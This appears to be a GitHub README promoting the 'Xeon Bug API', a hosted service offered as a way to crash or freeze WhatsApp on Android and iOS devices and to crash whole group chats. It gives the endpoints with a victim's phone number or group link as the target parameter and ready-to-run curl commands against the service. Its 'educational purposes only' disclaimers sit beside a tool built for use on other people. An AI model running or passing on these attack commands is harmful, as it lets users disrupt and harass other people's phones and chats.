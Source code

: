 
# 🚀 Xeon Bug API

The **Xeon Bug API** is a powerful endpoint API developed by **[Dream Guy Xeon](https://github.com/DGXeon)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Crash WhatsApp on Android devices.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Crash Android Devices**  
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1️⃣ **Freeze Android WhatsApp**  
**Description:** Freezes and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET https://xeon-bug-api.onrender.com/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2️⃣ **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET https://xeon-bug-api.onrender.com/iosCrash?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3️⃣ **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET https://xeon-bug-api.onrender.com/iosCrash?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Freeze Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[Dream Guy Xeon](https://github.com/DGXeon)**

Enjoy bugging responsibly! ✨
